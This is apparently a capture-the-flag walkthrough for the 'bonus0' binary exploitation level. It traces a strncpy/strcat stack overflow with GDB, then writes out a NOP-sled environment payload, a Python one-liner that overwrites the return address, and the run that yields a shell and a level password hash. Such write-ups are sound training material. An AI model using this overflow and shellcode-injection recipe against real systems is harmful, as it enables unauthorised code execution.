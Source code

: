 # 📦 Level: bonus0
## 🧪 Step 1: Program Behavior
```markdown
$ ./bonus0
 -
coucou
 -
coucou
coucou coucou
```
The program:
- Prompts for two inputs.
- Echoes them concatenated with a space in between.

## 🔍 Step 2: Reverse Engineering with GDB
#### `main` function:
```asm
call 0x804851e <pp>
call 0x80483b0 <puts@plt>
```
- Calls a function pp that handles inputs.

#### `pp` function:
```asm
call   0x80484b4 <p>
call   0x80484b4 <p>
...
call   0x80483a0 <strcpy@plt>    ; copy first input
...
call   0x8048390 <strcat@plt>    ; append second input
```
Two calls to p() to get input into stack buffers.

strcpy() and strcat() combine the buffers into a location pointed to by main.

Vulnerable function = p().

#### `p` function:
```asm
read(0, buffer, 0x1000);   // reads 4096 bytes from stdin
...
strncpy(dest, buffer, 0x14); // only copy 20 bytes to target buffer
```
💥 This creates a classic buffer overflow. We can overflow past the 20-byte strncpy() buffer.

## 🔥 Step 3: Triggering the Overflow
#### Fuzz to find the EIP offset:
Using a cyclic pattern, you determined:
- EIP offset starts at byte 9 in the second input (confirmed via SEGFAULT and EIP 0x41414141).

## 🧪 Step 4: Shellcode Injection via Environment
You stored the shellcode in an environment variable to bypass buffer size limitations:
```bash
export payload=$(python -c 'print "\x90"*500 + "<shellcode>"')
```
And you found the shellcode in memory at:
```
0xbffffe57
```

## 🎯 Step 5: Final Exploit
Input crafting:
```bash
python -c 'print "B"*4095 + "\n" + "A"*9 + "\x57\xfe\xff\xbf" + "B"*30' > /tmp/file
```
- First input: fills 4095 bytes.
- \n: separates the two inputs.
- Second input: 9 bytes to reach EIP, then your return address → into the NOP sled.
- Extra Bs: fill the rest.

Running the exploit:
```bash
$ cat /tmp/file - | env -i payload=$(python -c 'print "\x90"*500 + "<shellcode>"') ./bonus0
```
✅ You get a shell:

```bash
whoami
bonus1
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
- 🎉 Done!
